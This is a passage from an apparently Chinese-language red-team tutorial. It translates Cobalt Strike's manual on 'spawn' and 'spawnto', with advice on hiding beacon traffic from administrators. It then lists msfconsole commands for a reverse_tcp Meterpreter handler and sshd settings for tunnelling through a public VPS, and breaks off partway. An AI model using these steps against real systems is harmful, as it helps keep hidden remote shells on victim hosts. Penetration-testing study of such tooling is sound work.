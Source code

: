 下面是 cs 官方手册中关于 `spawn` 的介绍，我同样做了一点微小的翻译工作：

> Cobalt Strike 的 Beacon 最初是一个稳定的生命线，让你可以保持对受害主机的访问权限。从一开始，Beacon 的主要目的就是向其他的 Cobalt Strike 监听器传递权限。<br/>
使用 `spawn` 命令来为一个监听器派生一个会话。此 `spawn` 命令接受一个结构（如：x86，x64）和一个监听器作为其参数。<br/>
默认情况下，`spawn` 命令会在 rundll32.exe 中派生一个会话。管理员通过查看告警可能会发现 rundll32.exe 定期与 Internet 建立连接这种异常现象。为了更好的隐蔽性，你可以找到更合适的程序（如 Internet Explorer） 并使用 `spawnto` 命令来说明在派生新会话时候会使用 Beacon 中的哪个程序。

注：拓展阅读——[DllMain与rundll32详解](https://payloads.online/archivers/2019-10-02/1)，倾旋的博客，倾旋，2019年10月2日

个人理解，实际上就是这种过程：


![title](https://leanote.com/api/file/getImage?fileId=5e19568bab64411e2c001afe)

当你对某个 Beacon 选择了 `spawn`，就是派生，之后会让你选择一个 `Listener`：

![title](https://leanote.com/api/file/getImage?fileId=5e1821a3ab64415895005e70)

`Listener` 就是位于 payload 配置上一层的抽象概念，也就是告诉 CS 团队服务器从 payload 收连接指令的地方，定义了 payload 的存放位置。


**通过对某个 Beacon 指定 Listener 进行派生，我们生成了新的会话。这个意思就是让受害主机的 `rundll32.exe` 这个程序定期与我们指定在这个 Listener 中的地址、端口进行连接，进行指令的收发。**

顺便多说一句，在 CS 中，将 payload 注入到内存中的命令除了 `spawn`，还有 `inject`。



**具体操作：**

理解了前面的铺垫知识，下面的操作就很好理解了。




*第一步： 在本地 MSF上创建监听器*

到本地机器把 msf 起起来,并创建如下监听器：
```
msf > use exploit/multi/handler 
msf > set payload windows/meterpreter/reverse_tcp 注: 此处的协议格式务必要和上面 cs 外部监听器的协议对应,不然 meter 是无法正常回连的 
msf > set lhost 192.168.113.131                   注：这里填本地 MSF 服务器的 IP 地址
msf > set lport 8080 
msf > exploit 
``` 
 

![title](https://leanote.com/api/file/getImage?fileId=5e182f3fab64415a97006135)
 
![title](https://leanote.com/api/file/getImage?fileId=5e18302eab64415a97006158)
 
 
这样就在本地 MSF 上创建了一个监听器。

*第二步：给本地 MSF 一个公网地址*

这里通过 SSH 隧道转发：

在一台公网 VPS 上编辑 sshd 配置，开启 ssh 转发功能,重启 ssh 服务，这是所有使用 ssh 隧道转发前的必备操作：
```
# vi /etc/ssh/sshd_config 
AllowTcpForwarding yes 
GatewayPorts yes 
TCPKeepAlive yes 
PasswordAuthentication yes 
 
# systemctl restart sshd.service 
``` 

